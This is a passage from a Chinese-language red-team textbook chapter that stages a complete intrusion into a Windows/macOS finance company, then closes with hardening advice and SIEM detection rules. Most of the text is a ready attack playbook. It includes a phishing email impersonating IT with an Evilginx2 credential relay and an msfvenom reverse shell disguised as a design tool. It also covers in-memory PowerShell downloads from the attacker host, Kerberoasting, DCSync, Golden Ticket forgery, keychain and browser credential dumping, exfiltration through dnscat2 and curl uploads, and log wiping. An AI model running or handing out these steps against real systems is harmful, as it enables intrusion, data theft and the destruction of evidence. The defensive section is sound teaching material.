

## 五、综合案例：企业环境渗透

本章前面四节分别讲解了 Windows 域环境渗透、macOS 权限提升、Windows 免杀与对抗、macOS 免杀与对抗的独立技术。本节将这些技术串联为一个完整的红队行动案例——在混合 Windows/macOS 企业环境中，从零开始完成侦察、初始访问、横向移动、权限提升、数据提取、隐蔽撤离的全链路攻击，并给出对应的纵深防御建议。

> **法律声明**：本案例为教学演示，所有技术仅用于授权渗透测试与安全研究。未经授权对计算机系统实施攻击属于违法行为。

---

### 5.1 圌景架构设计

#### 5.1.1 企业环境拓扑

本次模拟的目标企业是一家金融科技公司，采用 Windows AD + macOS 终端的混合架构。

| 角色 | 主机名 | IP 地址 | 操作系统 | 说明 |
|------|--------|---------|----------|------|
| 域控制器 | DC01 | 10.10.10.10 | Windows Server 2022 | corp.local 主域控 |
| 备份域控 | DC02 | 10.10.10.11 | Windows Server 2022 | 辅助域控 |
| 文件服务器 | FILES01 | 10.10.10.20 | Windows Server 2019 | SMB 文件共享 |
| 邮件服务器 | MAIL01 | 10.10.10.30 | Exchange 2019 | OWA 对外暴露 |
| macOS 设计站 | MAC-DESIGN-01 | 10.10.10.50 | macOS Ventura 13.x | 设计部工作站 |
| macOS 开发站 | MAC-DEV-01 | 10.10.10.51 | macOS Sonoma 14.x | 开发部工作站 |
| Windows 工作站 | WS01~WS50 | 10.10.10.100-150 | Windows 11 Enterprise | 员工终端 |
| VPN 网关 | VPN01 | 10.10.10.1 | Palo Alto | 远程接入 |



#### 5.1.2 目标企业的安全基线

在评估开始前，需要了解目标已部署的安全控制：

- **EDR**：Windows 终端部署 CrowdStrike Falcon；macOS 终端部署 Jamf Protect
- **邮件网关**：Proofpoint 邮件安全网关，具备沙箱检测能力
- **身份认证**：Active Directory + Azure AD 混合身份，部分服务启用 MFA
- **网络分段**：服务器 VLAN 与终端 VLAN 隔离，ACL 控制跨段通信
- **日志审计**：Windows 事件转发到 SIEM（Splunk），macOS 使用 Jamf Pro 管理
- **特权管理**：LAPS 管理本地管理员密码，域管理员账户受 PIM 保护

#### 5.1.3 攻击者能力矩阵

攻击者需要具备以下工具与基础设施：

| 层级 | 工具/能力 | 用途 |
|------|-----------|------|
| C2 框架 | Cobalt Strike 4.x | 指挥控制、后渗透 |
| 初始载荷 | Sliver / Havoc | 备选 C2，绕过特定 EDR 检测 |
| 钓鱼平台 | GoPhish | 钓鱼邮件投递与追踪 |
| 基础设施 | 域前置 CDN + 多阶段重定向 | C2 通信隐蔽 |
| 隧道工具 | Chisel / Ligolo-ng | 内网穿透 |
| Windows 工具集 | PowerView, Rubeus, Mimikatz, SharpHound | 域渗透 |
| macOS 工具集 | Mythic Agent, Keychaindump, Empire macOS | macOS 渗透 |

---

### 5.2 第一阶段：侦察与信息收集

#### 5.2.1 外部资产发现

在发起攻击前，攻击者通过开源情报（OSINT）收集目标企业的外部暴露面。

```bash
# 子域名枚举
subfinder -d corp.com -o subdomains.txt
amass enum -passive -d corp.com >> subdomains.txt

# 端口扫描（外部可达资产）
nmap -sV -sC -T4 -p 1-65535 -iL external_targets.txt -oA external_scan

# 证书透明度日志查询（发现子域名）
curl -s "https://crt.sh/?q=%.corp.com&output=json" | jq '.[].name_value' | sort -u

# 邮箱收集
theHarvester -d corp.com -b google,linkedin,bing -l 200 -o emails.txt
```

**侦察结果示例**：

| 发现项 | 详情 |
|--------|------|
| OWA 登录页 | mail.corp.com/owa — Exchange 2019，未启用 MFA |
| VPN 入口 | vpn.corp.com — Palo Alto GlobalProtect |
| Jenkins | jenkins.corp.com:8443 — 内部 CI/CD 暴露 |
| 员工邮箱 | 张三 zhangsan@corp.com，李四 lisi@corp.com |
| GitHub 泄露 | 公开仓库含 .env 文件，含数据库连接字符串 |

#### 5.2.2 钓鱼目标筛选

基于 OSINT 结果，攻击者选择钓鱼目标的原则：

1. **有对外沟通需求的角色**：市场部、客服部——日常接收外部邮件概率高，安全意识相对较低
2. **有特权访问的角色**：IT 运维、开发团队——拿下后可直接获得高权限凭据
3. **macOS 用户**：安全防护通常弱于 Windows 终端

通过 LinkedIn 搜索目标企业的员工列表，交叉匹配邮箱格式（`firstname.lastname@corp.com`），构建钓鱼名单。

```bash
# 使用 GoPhish 构建钓鱼活动
# 1. 创建邮件模板——伪装为 IT 部门的 VPN 证书更新通知
# 2. 创建登录页面——仿制 GlobalProtect VPN 登录页
# 3. 导入目标邮箱列表
# 4. 配置 SMTP 发送（使用注册的相似域名 corp-vpn.com）
```

#### 5.2.3 钓鱼邮件投递

邮件主题选用「VPN 证书过期通知 — 请立即更新」，邮件正文包含企业 Logo 和逼真的格式：

```text
主题：【紧急】VPN 安全证书过期 — 请在48小时内更新

尊敬的同事：

IT 部门检测到您的 VPN 访问证书将于本周五到期。为确保远程办公
不受影响，请点击以下链接完成证书更新：

[更新VPN证书] https://vpn.corp-vpn.com/cert-update

如未在48小时内更新，您的VPN访问将被自动暂停。

IT 运维团队
corp.com
```

钓鱼页面部署在 `corp-vpn.com`（与企业域名 `corp.com` 高度相似），使用 Let's Encrypt 证书，配合 Evilginx2 中间人代理实时转发凭据到真实的 GlobalProtect 门户。

---

### 5.3 第二阶段：初始访问

#### 5.3.1 凭据窃取与 VPN 接入

钓鱼活动持续 72 小时后，获得以下有效凭据：

| 目标 | 角色 | 获取的凭据 | 设备类型 |
|------|------|-----------|----------|
| 市场部王五 | 普通域用户 | wangwu / your_password2024! | Windows 11 |
| 设计师赵六 | macOS 用户设计部 | zhaoliu / Design2024# | macOS Ventura |
| IT 运维孙七 | 域管理员（运气较好） | sunqi / ITadmin2024!! | Windows 11 |

通过 GlobalProtect VPN 使用孙七的凭据建立 VPN 连接：

```bash
# 使用 openconnect 连接 GlobalProtect
openconnect --protocol=gp vpn.corp.com --user=sunqi --passwd-on-stdin < password.txt

# 验证内网连通性
ping 10.10.10.10  # 域控制器
nmap -sn 10.10.10.0/24  # 快速主机发现
```

> **关键判断**：孙七虽然是 IT 运维，但其 VPN 连接受到了网络策略限制——仅允许访问管理网段 10.10.10.0/26（包含域控和文件服务器）。这反而帮助攻击者缩小了侦察范围。

#### 5.3.2 建立初始 C2 通道

VPN 接入后，在攻击者的 Linux 控制机上启动 Cobalt Strike Team Server：

```bash
# 启动 Cobalt Strike Team Server
sudo ./teamserver 10.10.10.1 your_password profile/c2.profile

# 生成初始 Beacon payload（PowerShell 下载执行器）
# Cobalt Strike: Attacks > Packages > Payload Generator > PowerShell
```

使用 Sliver 作为备选 C2（当 CrowdStrike 对 Cobalt Strike 的检测率较高时）：

```bash
# Sliver 服务端
sliver-server

# 生成植入体
generate --mtls 10.10.10.1:8443 --os windows --arch amd64 --format exe \
    --save /tmp/stage1.exe --evasion

# 为 macOS 目标生成植入体
generate --mtls 10.10.10.1:8443 --os darwin --arch amd64 --format macho \
    --save /tmp/stage1_mac
```

#### 5.3.3 macOS 初始立足点（通过赵六的设备）

赵六是设计部门的 macOS 用户，通过钓鱼获取其 VPN 凭据后，利用其 Mac 已有的 SSH 远程登录功能：

```bash
# 通过 VPN 尝试 SSH 连接赵六的 Mac
ssh zhaoliu@10.10.10.50

# 如果 SSH 未启用，尝试利用已知凭据访问共享资源
smbclient -L 10.10.10.50 -U zhaoliu

# 利用 macOS 的远程管理功能
open http://10.10.10.50:5900  # VNC
```

如果直接 SSH 不可行，可通过钓鱼邮件向赵六发送伪装为设计素材的恶意文件：

```bash
# 生成 macOS 有效载荷（伪装为 PSD 预览工具）
msfvenom -p osx/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=8443 \
    -f macho -o PSDPreview.app

# 使用 Platypus 将 payload 打包为 .app
# 或使用 macOS 上的 Automator 创建应用程序包
```

---

### 5.4 第三阶段：内网侦察与域信息收集

#### 5.4.1 Windows 域环境枚举

以孙七的域管理员凭据为起点，在内网 Windows 主机上执行全面的 AD 侦察：

```powershell
# 导入 PowerView（内存加载，避免落盘）
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.1:8080/PowerView.ps1')

# 域基本信息
Get-Domain | Select-Object Name, DomainMode, DomainSID, Forest
Get-DomainController | Select-Object Name, IPAddress, OSVersion, IsGlobalCatalog

# 枚举所有域管理员
Get-DomainGroupMember -Identity "Domain Admins" -Recurse |
    Select-Object MemberName, MemberDN

# 枚举高权限账户（Enterprise Admins, Schema Admins）
Get-DomainGroupMember -Identity "Enterprise Admins" -Recurse

# 查找 Kerberoastable 服务账户
Get-DomainUser -SPN | Select-Object SamAccountName, ServicePrincipalName, MemberOf

# 查找 AS-REP Roastable 账户（预认证禁用）
Get-DomainUser -PreauthNotRequired | Select-Object SamAccountName

# 枚举所有计算机对象
Get-DomainComputer -OperatingSystem "*Server*" |
    Select-Object Name, OperatingSystem, IPv4Address

# 查找 Unconstrained Delegation（无约束委派）
Get-DomainComputer -Unconstrained | Select-Object Name, IPv4Address

# 枚举 GPO（组策略）
Get-DomainGPO | Select-Object DisplayName, GPCFileSysPath |
    ForEach-Object {
        $_ | Get-DomainGPOLocalGroup -ErrorAction SilentlyContinue
    }

# 枚举共享资源
Find-DomainShare -CheckShareAccess | Select-Object Name, ComputerName, Type
```

使用 BloodHound 收集关系图谱数据：

```powershell
# SharpHound 数据收集（内存加载）
IEX (New-Object Net.WebClient).DownloadString(
    'http://10.10.10.1:8080/SharpHound.ps1')
Invoke-BloodHound -CollectionMethod All -Domain corp.local -Stealth

# 将结果上传到 BloodHound 分析
# 查找最短攻击路径到 Domain Admins
# MATCH p=shortestPath((u:User {name:'WANGWU@CORP.LOCAL'})-
#   (g:Group {name:'DOMAIN ADMINS@CORP.LOCAL'})) RETURN p
```

**收集结果分析**：

| 发现项 | 详情 | 利用价值 |
|--------|------|----------|
| Kerberoast SPN | MSSQLSvc/sql01.corp.local:1433 — svc_sql 账户 | 离线破解服务票据 |
| AS-REP 用户 | intern01 — 无预认证 | 离线破解 AS-REP 哈希 |
| Unconstrained Delegation | DC02 备域控上配置了无约束委派 | 可用于票据传递攻击 |
| LAPS 已部署 | 所有工作站的本地管理员密码由 LAPS 管理 | 需要域管权限读取 |
| Exchange 管理员 | zhangwei 是 Exchange 管理组成员 | 可访问所有邮箱 |

#### 5.4.2 macOS 环境侦察

在已获取初始访问的 macOS 主机（赵六的设计站）上执行本地侦察：

```bash
# 系统信息收集
sw_vers                    # macOS 版本
sysctl -n machdep.cpu.brand_string  # CPU 信息
diskutil list              # 磁盘信息
networksetup -listallhardwareports  # 网络接口

# 本地用户枚举
dscl . list /Users | grep -v "^_"  # 非隐藏用户
dscl . read /Groups/admin GroupMembership  # 管理员用户

# 网络信息
ifconfig | grep "inet "    # IP 地址
netstat -an | grep ESTABLISHED  # 活跃连接
scutil --dns | grep "nameserver"  # DNS 服务器

# 已安装应用
ls /Applications/
system_profiler SPApplicationsDataType  # 详细应用列表

# 查找 VPN 配置
cat /Library/Preferences/com.paloaltonetworks.GlobalProtect.client.plist 2>/dev/null

# 环境变量（可能含敏感信息）
env | grep -iE "token|key|pass|secret"

# 已挂载的网络卷
mount | grep "smbfs\|afpfs"
```

```bash
# 凭据搜索——查找保存的 Wi-Fi 密码
security find-generic-password -ga "CorpWiFi" 2>&1 | grep "password:"

# 查找浏览器保存的凭据
ls ~/Library/Application\ Support/Google/Chrome/Default/Login\ Data
ls ~/Library/Application\ Support/Firefox/Profiles/

# 查找 SSH 密钥
ls -la ~/.ssh/
cat ~/.ssh/config 2>/dev/null

# 查找 .env 文件和配置中的密钥
find /Users/zhaoliu -name ".env" -o -name "*.pem" -o -name "*.key" \
    -o -name "credentials" 2>/dev/null
```

---

### 5.5 第四阶段：权限提升

#### 5.5.1 Windows 权限提升路径

**路径一：Kerberoasting → 服务账户破解**

```powershell
# 请求服务票据（TGS）
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken \
    -ArgumentList "MSSQLSvc/sql01.corp.local:1433"

# 导出票据
mimikatz # kerberos::list /export

# 使用 hashcat 离线破解
hashcat -m 13100 svc_sql_tgs.txt rockyou.txt -r rules/best64.rule

# 如果破解成功，获取 svc_sql 的明文密码
# 检查 svc_sql 是否在本地管理员组或其他特权组
Get-DomainUser svc_sql | Select-Object MemberOf
```

**路径二：AS-REP Roasting → 低权限用户 → 特权提升**

```powershell
# 使用 Rubeus 执行 AS-REP Roasting
Rubeus.exe asreopout /format:hashcat /outfile:asrep_hashes.txt

# 离线破解
hashcat -m 18200 asrep_hashes.txt rockyou.txt

# intern01 的密码被破解：Welcome2024
# 以 intern01 身份登录，检查其权限
# intern01 是 "HelpDesk" 组成员，拥有工作站本地管理员权限

# 使用 intern01 的本地管理员权限在工作站上获取 SYSTEM
# 通过计划任务或服务提权
PsExec64.exe -accepteula -s cmd.exe
```

**路径三：无约束委派攻击（通过 DC02）**

```powershell
# 在 DC02（已配置无约束委派）上提取 TGT
# 使用 Rubeus 监听传入的 TGT
Rubeus.exe monitor /interval:5 /nowrap

# 从 DC02 向 DC01 触发认证（利用 PrinterBug/SpoolSample）
SpoolSample.exe DC01.corp.local DC02.corp.local

# Rubeus 捕获 DC01 的 TGT
# 使用捕获的 TGT 以 DC01 机器账户身份访问域控制器
Rubeus.exe ptt /ticket:<captured_tgt_base64>

# 验证——以 DC01 机器身份 DCSync
mimikatz # lsadump::dcsync /domain:corp.local /user:krbtgt
```

#### 5.5.2 macOS 权限提升路径

**路径一：sudo 配置漏洞**

```bash
# 检查当前用户的 sudo 权限
sudo -l

# 如果发现 NOPASSWD 条目，直接利用
# 例如：(ALL) NOPASSWD: /usr/bin/python3
sudo /usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

# 查找 SUID 二进制文件
find / -perm -4000 -type f 2>/dev/null

# 检查 SIP 状态
csrutil status

# 如果 SIP 已禁用（某些开发环境会禁用），提权难度大幅降低
```

**路径二：利用已安装的第三方应用**

```bash
# 枚举安装的第三方应用及其权限
ls -la /Applications/ | grep -v "Apple"

# 查找具有 root 权限的 Helper Tool
find /Library/PrivilegedHelperTools/ -type f
find /Applications -name "*Helper*" -o -name "*Privileged*"

# 检查 Helper Tool 的签名与权限
codesign -dvvv /Library/PrivilegedHelperTools/com.someapp.helper
# 如果 Helper Tool 存在路径注入或 XPC 劫持漏洞，可以提权

# 查找 writable 的 LaunchDaemon plist
ls -la /Library/LaunchDaemons/ | grep -v root
# 如果发现非 root 所有的 Daemon，可以替换其执行程序
```

**路径三：利用 TCC 绕过**

```bash
# macOS TCC（透明度、同意和控制）数据库
# 检查哪些应用有完全磁盘访问权限
sqlite3 ~/Library/Application\ Support/com.apple.TCC/TCC.db \
    "SELECT client,auth_value FROM access WHERE service='kTCCServiceSystemPolicyAllFiles'"

# 如果当前用户是管理员，可以通过添加 Full Disk Access 来绕过 TCC
# 方法：利用已签名的 Apple 应用加载恶意 dylib
```

---

### 5.6 第五阶段：横向移动

#### 5.6.1 Windows 横向移动

**利用域管理员凭据的横向移动**：

```powershell
# 使用 WMI 远程执行
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell -ep bypass -c IEX(...)" \
    -ComputerName WS01.corp.local -Credential $cred

# 使用 PsExec（SMB）
PsExec64.exe \\WS01.corp.local -u CORP\svc_sql -p <password> cmd.exe

# 使用 WinRM 远程管理
$session = New-PSSession -ComputerName WS01.corp.local -Credential $cred
Invoke-Command -Session $session -ScriptBlock { whoami; hostname }

# 使用 DCOM 远程执行（更隐蔽，不经过 SMB）
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "WS01"))
$com.Document.ActiveView.ExecuteShellCommand("cmd", $null, "/c powershell -ep bypass -c IEX(...)", "7")
```

**Pass-the-Hash / Pass-the-Ticket 攻击**：

```powershell
# Mimikatz Pass-the-Hash
mimikatz # sekurlsa::pth /user:svc_sql /domain:corp.local \
    /ntlm:<ntlm_hash> /run:powershell.exe

# 从内存中提取所有可用的 Kerberos 票据
mimikatz # sekurlsa::tickets /export

# 使用 Rubeus 进行 Pass-the-Ticket
Rubeus.exe ptt /ticket:<ticket.kirbi>

# 使用 Overpass-the-Hash（将 NTLM 哈希转换为 Kerberos TGT）
Rubeus.exe asktgt /user:svc_sql /ntlm:<ntlm_hash> /ptt
```

**macOS 到 Windows 的横向移动**：

```bash
# 在 macOS 上使用 impacket 工具套件
# 安装：pip3 install impacket

# 使用 secretsdump 提取 Windows 凭据
impacket-secretsdump CORP/svc_sql:'<password>'@10.10.10.10

# 使用 wmiexec 远程执行
impacket-wmiexec CORP/svc_sql:'<password>'@10.10.10.100

# 使用 smbexec
impacket-smbexec CORP/svc_sql:'<password>'@10.10.10.100
```

#### 5.6.2 macOS 横向移动

```bash
# 利用收集到的 SSH 密钥横向移动到其他 macOS 主机
ssh -i stolen_key dev_admin@10.10.10.51

# 如果 macOS 主机加入了 AD 域，使用 AD 凭据
# 域用户的 Kerberos 票据可能存在于 macOS 的钥匙串中
klist  # 查看已缓存的 Kerberos 票据
kinit dev_admin@CORP.LOCAL  # 请求新票据

# 利用 macOS 的 Bonjour/mDNS 发现其他 Mac
dns-sd -B _ssh._tcp local.     # 发现局域网 SSH 服务
dns-sd -B _afpovertcp._tcp local.  # 发现 AFP 文件共享

# 利用 Apple Remote Desktop (ARD)
# 如果 ARD 已配置，可以远程控制其他 Mac
/System/Library/CoreServices/RemoteManagement/ARDAgent.app/Contents/Resources/kickstart \
    -list -targetUsers
```

#### 5.6.3 从 macOS 渗透 Windows 域控

攻击者的最终目标是域控制器。从 macOS 主机出发：

```bash
# 第一步：使用 impacket 的 psexec 获取域控制器 SYSTEM 权限
# 利用之前 DCSync 获取的 krbtgt 哈希生成 Golden Ticket
impacket-ticketer -nthash <krbtgt_ntlm> -domain-sid S-1-5-21-xxx \
    -domain corp.local Administrator

export KRB5CCNAME=Administrator.ccache

# 使用 Kerberos 认证连接域控
impacket-psexec corp.local/Administrator@10.10.10.10 -k -no-pass

# 或者使用 WMI
impacket-wmiexec corp.local/Administrator@10.10.10.10 -k -no-pass
```

---

### 5.7 第六阶段：数据提取与目标达成

#### 5.7.1 敏感数据定位

```powershell
# 在文件服务器上搜索敏感文件
Get-ChildItem \\FILES01\Finance$ -Recurse -Include *.xlsx,*.docx,*.pdf,*.csv |
    Where-Object { $_.LastWriteTime -gt (Get-Date).AddDays(-90) } |
    Select-Object FullName, Length, LastWriteTime

# 搜索包含关键词的文件
Select-String -Path \\FILES01\**\*.docx -Pattern "机密|密码|secret|password|key" -List

# 查找 KeePass 数据库
Get-ChildItem \\FILES01\ -Recurse -Include *.kdbx,*.key 2>$null

# 查找代码仓库中的敏感信息
Get-ChildItem \\FILES01\Dev$\ -Recurse -Include .env,*.pem,*.pfx,*.p12 2>$null
```

```bash
# 在 macOS 上搜索敏感数据
# 钥匙串提取（需要用户密码）
security dump-keychain -d login.keychain > keychain_dump.txt

# 搜索密码管理器数据
find /Users -name "*.kdbx" -o -name "*1password*" -o -name "*lastpass*" 2>/dev/null

# 搜索 SSH 密钥和证书
find /Users -name "*.pem" -o -name "id_rsa" -o -name "id_ed25519" 2>/dev/null

# 搜索浏览器保存的凭据
# Chrome 的 Login Data 是 SQLite 数据库
sqlite3 ~/Library/Application\ Support/Google/Chrome/Default/Login\ Data \
    "SELECT origin_url, username_value FROM logins"
```

#### 5.7.2 数据外传策略

数据外传必须隐蔽，避免触发 DLP 和 SIEM 告警：

```bash
# 方法一：DNS 隧道（低带宽但极其隐蔽）
# 使用 dnscat2
# 服务端（攻击者）
ruby dnscat2.rb corp-tunnel.com --secret=sharedkey

# 客户端（目标机器）
./dnscat2 corp-tunnel.com --secret=sharedkey

# 通过 dnscat2 传输文件
[dnscat] window -i 1
dnscat> download sensitive_data.xlsx /tmp/exfil/sensitive_data.xlsx

# 方法二：HTTPS 外传（模拟正常流量）
# 在合法云存储服务上创建共享链接
# 使用 curl 上传到合法的文件分享服务
curl -X POST https://api.anonfiles.com/upload \
    -F "file=@sensitive_data.xlsx" \
    --proxy socks5://127.0.0.1:1080

# 方法三：加密压缩后分块传输
7z a -p"StrongPass123!" -mhe=on archive.7z sensitive_folder/
split -b 1M archive.7z chunk_
# 分块通过不同渠道传输（邮件附件、云盘、HTTPS 外传）

# 方法四：利用企业已有的合法通道
# 使用目标企业自己的 OneDrive/SharePoint 上传功能
# 流量会混入正常的业务流量中，难以区分
```

#### 5.7.3 痕迹清理

```powershell
# Windows 日志清理
wevtutil cl Security
wevtutil cl System
wevtutil cl Application
wevtutil cl "Windows PowerShell"
wevtutil cl "Microsoft-Windows-PowerShell/Operational"
wevtutil cl "Microsoft-Windows-Sysmon/Operational"

# 清理文件访问痕迹
Remove-Item (Get-PSReadLineOption).HistorySavePath -Force
Remove-Item $env:TEMP\* -Recurse -Force

# 清理回收站
Clear-RecycleBin -Force
```

```bash
# macOS 痕迹清理
# 清除终端历史
history -c
rm -f ~/.bash_history ~/.zsh_history
ln -s /dev/null ~/.bash_history  # 指向空设备
ln -s /dev/null ~/.zsh_history

# 清除系统日志
sudo rm -f /var/log/system.log*
sudo rm -f /var/log/asl/*.asl
sudo log erase --all

# 清除最近使用的文件记录
rm -f ~/Library/Preferences/com.apple.recentitems.plist
defaults delete com.apple.finder RecentApplications
defaults delete com.apple.finder RecentDocuments

# 清除安装记录
sudo rm -f /var/log/install.log*

# 清除文件访问时间
# 使用 touch 设置时间为远古时间
find /tmp -name "suspicious*" -exec touch -t 200001010000 {} \;

# 清除 Spotlight 索引（避免文件被索引发现）
sudo mdutil -E / 2>/dev/null
```

---

### 5.8 完整攻击链时间线


| 阶段 | 时间 | 关键动作 | 使用的技术/工具 | 获得的权限 |
|------|------|----------|----------------|-----------|
| 侦察 | Day 1-3 | OSINT 收集、钓鱼投递 | GoPhish、Evilginx2 | 3 个域用户凭据 |
| 初始访问 | Day 4 | VPN 接入、C2 部署 | GlobalProtect、Sliver | VPN 内网访问 |
| 域侦察 | Day 5-6 | AD 枚举、SPN 扫描 | PowerView、SharpHound | 域拓扑、攻击路径 |
| 权限提升 | Day 7-8 | Kerberoasting、委派攻击 | Rubeus、Mimikatz | 域管理员权限 |
| 横向移动 | Day 9 | 跨平台移动、域控接管 | impacket、Golden Ticket | 全域控制权 |
| 数据提取 | Day 10 | 定位敏感数据、隐蔽外传 | dnscat2、加密分块 | 核心业务数据 |
| 清理 | Day 11 | 日志清理、报告输出 | 手动清理 | — |

---

### 5.9 纵深防御体系

#### 5.9.1 钓鱼防护

| 防御层 | 措施 | 具体实施 |
|--------|------|----------|
| 邮件网关 | SPF/DKIM/DMARC 强制校验 | DNS TXT 记录配置 `v=spf1 include:_spf.corp.com -all`，DMARC 设为 `p=reject` |
| 邮件网关 | 沙箱附件检测 | Proofpoint/Mimecast 启用高级威胁防护，所有 Office 附件沙箱化 |
| 端点 | 禁用宏自动执行 | GPO: `User Config > Admin Templates > MS Office > Disable VBA for Office apps` |
| 身份 | 全员 MFA | 所有外部访问点（VPN、OWA、Azure AD）强制 FIDO2/WebAuthn |
| 人员 | 定期安全意识培训 | 每季度钓鱼模拟演练，对反复中招的员工进行一对一辅导 |

#### 5.9.2 Windows 域防御加固

```powershell
# 1. 启用 Credential Guard（防止凭据从内存中提取）
# 需要 UEFI + VBS 支持
# 通过 GPO 启用：
# Computer Config > Admin Templates > System > Device Guard >
#   Turn On Virtualization Based Security > Enabled
#   Select Platform Security Level: Secure Boot and DMA Protection
#   Credential Guard Configuration: Enabled with UEFI lock

# 2. 部署 LAPS（本地管理员密码管理）
# 安装 LAPS 安装包后：
Update-AdmPwdADSchema
Set-AdmPwdComputerSelfPermission -Identity "OU=Workstations,DC=corp,DC=local"
# GPO 配置密码复杂度和轮换周期（建议 30 天）

# 3. 配置 Protected Users 安全组
# 将所有管理员账户加入 Protected Users 组
Add-ADGroupMember -Identity "Protected Users" -Members "da_jones","da_smith"
# Protected Users 组成员：禁用 NTLM、禁用 NTOWF、禁用 DES/RC4

# 4. 监控 Kerberoasting 活动
# 配置审计策略：事件 ID 4769（TGS 请求）
# SIEM 规则：当同一用户在短时间内请求大量 TGS 票据时告警
# 检测条件：ServiceName != krbtgt，TicketEncryptionType = 0x17 (RC4)

# 5. 限制无约束委派
# 使用 PowerShell 检查所有配置了无约束委派的计算机
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation |
    Select-Object Name, DistinguishedName
# 仅保留必要的域控制器，移除其他所有无约束委派配置

# 6. 启用高级审计策略
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable /failure:enable
auditpol /set /subcategory:"Credential Validation" /success:enable /failure:enable
auditpol /set /subcategory:"Security Group Management" /success:enable /failure:enable
```

#### 5.9.3 macOS 防御加固

```bash
# 1. 确保 SIP（系统完整性保护）始终启用
csrutil status
# 如果显示 disabled，需要进入恢复模式启用
# 重启 → 按住 Command+R → 终端 → csrutil enable

# 2. 配置 MDM（移动设备管理）—— 推荐 Jamf Pro 或 Kandji
# MDM 可以强制执行以下策略：
# - 禁用 USB 外设（防止数据外传）
# - 强制全盘加密（FileVault 2）
# - 推送安全配置 Profile
# - 远程锁定和擦除

# 3. 配置 FileVault 2 全盘加密
sudo fdesetup enable
sudo fdesetup status  # 验证

# 4. 监控 Launch Agents 和 Launch Daemons
# 定期检查以下目录中的异常项：
ls -la /Library/LaunchDaemons/
ls -la /Library/LaunchAgents/
ls -la ~/Library/LaunchAgents/

# 使用 KnockKnock 工具扫描持久化项
# KnockKnock 可以列出所有自动启动的可执行文件并检查 VirusTotal

# 5. 配置 TCC 限制
# 限制终端（Terminal/iTerm）的完全磁盘访问权限
# 仅授予必要的应用 Full Disk Access

# 6. 启用系统审计
sudo launchctl load -w /System/Library/LaunchDaemons/com.apple.auditd.plist
# 配置 /etc/security/audit_control
# flags: lo,aa,ad,fd,fm,-all
# minfree: 5
# naflags: lo,aa

# 7. 部署 osquery 进行持续监控
# 安装 osquery
brew install osquery
# 配置定时查询：异常进程、网络连接、用户变更
```

#### 5.9.4 网络层防御

```text
┌──────────────────────────────────────────────────────────────────┐
│                       纵深防御架构                                │
├──────────────────────────────────────────────────────────────────┤
│                                                                  │
│  [互联网] ──┬── [WAF/IPS] ──┬── [DMZ]                          │
│             │               │   ├─ OWA (强制 MFA)               │
│             │               │   └─ VPN (证书 + MFA + 设备合规)   │
│             │               │                                    │
│             └── [邮件网关] ──┘                                   │
│                 SPF/DKIM/DMARC                                    │
│                 沙箱 + AI 检测                                    │
│                                                                  │
│  [核心网络] ──┬── [服务器 VLAN]                                  │
│               │   ├─ 域控 (仅管理端口)                           │
│               │   └─ 文件服务器 (ACL + 审计)                     │
│               │                                                  │
│               ├── [终端 VLAN]                                    │
│               │   ├─ Windows (EDR + AppLocker)                   │
│               │   └─ macOS (Jamf Protect + MDM)                  │
│               │                                                  │
│               └── [管理 VLAN]                                    │
│                   └─ 带外管理 (iLO/iDRAC, 独立网络)              │
│                                                                  │
│  [检测层] ──┬── SIEM (Splunk/Sentinel)                          │
│             │   ├─ Windows 事件转发 (WEF)                        │
│             │   ├─ Sysmon 日志                                   │
│             │   └─ macOS 统一日志 (unified logging)              │
│             │                                                    │
│             ├── EDR 告警                                         │
│             │   ├─ CrowdStrike Falcon (Windows)                  │
│             │   └─ Jamf Protect (macOS)                          │
│             │                                                    │
│             └── 网络流量分析 (NDR)                                │
│                 └─ 异常 DNS / 横向移动 / C2 通信                  │
│                                                                  │
└──────────────────────────────────────────────────────────────────┘
```

#### 5.9.5 关键 SIEM 检测规则

| 检测场景 | 数据源 | 检测逻辑 | 告警级别 |
|----------|--------|----------|----------|
| Kerberoasting | Windows Event 4769 | 短时间内（5 分钟）同一用户请求 > 5 个不同 SPN 的 TGS，且加密类型为 RC4 | 高 |
| AS-REP Roasting | Windows Event 4768 | PreAuthType = 0 的 Kerberos 认证请求 | 中 |
| 异常 VPN 登录 | VPN 日志 | 同一账户从不同地理位置在 1 小时内登录 | 高 |
| DCSync 攻击 | Windows Event 4662 | 非域控制器主机发起 DS-Replication-Get-Changes-All 请求 | 紧急 |
| macOS Launch Agent 异常 | osquery | /Library/LaunchDaemons/ 或 ~/Library/LaunchAgents/ 中新增项 | 中 |
| 异常 PowerShell 执行 | Sysmon Event 1 + ScriptBlock | EncodedCommand、DownloadString、Invoke-Expression 组合使用 | 高 |
